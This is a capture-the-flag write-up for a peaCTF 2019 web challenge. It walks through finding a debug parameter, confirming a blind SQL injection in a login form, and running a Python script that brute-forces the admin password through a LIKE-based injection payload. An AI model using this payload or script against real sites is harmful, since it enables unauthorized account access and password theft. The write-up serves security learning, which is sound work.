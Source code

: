 # Philips And Over
```
There is a website running at http://shell1.2019.peactf.com:10078. Try to log in the "admin" account.
```
The Website:
![Screenshot1](Screenshot1.png)

Tried to login with admin:
![Screenshot2](Screenshot2.png)

Notice got a `Forget Password`, tried to pretend as admin:
![Screenshot3](Screenshot3.png)

But it failed =(
![Screenshot4](Screenshot4.png)

Checkinng the POST request, notice got a `debug` param:
![Screenshot5](Screenshot5.png)

Tried to Edit and Resend, change from 0 to 1:
![Screenshot6](Screenshot6.png)

And we saw something, is a SQL query!
![Screenshot7](Screenshot7.png)

Then we tried to SQL inject, and it is vulnerable!
![Screenshot8](Screenshot8.png)

Also notice if we enter random username, it will say `User does not exist`:
![Screenshot9](Screenshot9.png)

We confirm that this is a **Blind SQL injection**!

The statement is `SELECT password, answer FROM users WHERE username='admin'`

Our plan is to add `AND password LIKE '...%'` slowly brute force the password

Whole injection is like this:
```sql
SELECT password, answer FROM users WHERE username='admin' AND password LIKE '...%'
```
We're using python to brute force the password:
```python
import requests
import string
password = ""
while(1):
	for s in string.printable:
		data = {
			"username": "admin' AND password LIKE '%s%%" % (password+s),
			"answer": " ",
			"debug": 1
		}
		r = requests.post("http://shell1.2019.peactf.com:10078/result.php",data=data)
		if r.text.find("User does not exist") == -1:
			password += s
			print password
			break
```
Result:
```
4
45
458
4587
45873
458732
4587329
45873291
45873291%
...
```
Looks like the password is `45873291`!

Use the password and login, we get the flag!
![Screenshot10](Screenshot10.png)

## Flag
> flag{peactf_E_>_A_4d7424757a1b776fe6c456bef727aad3}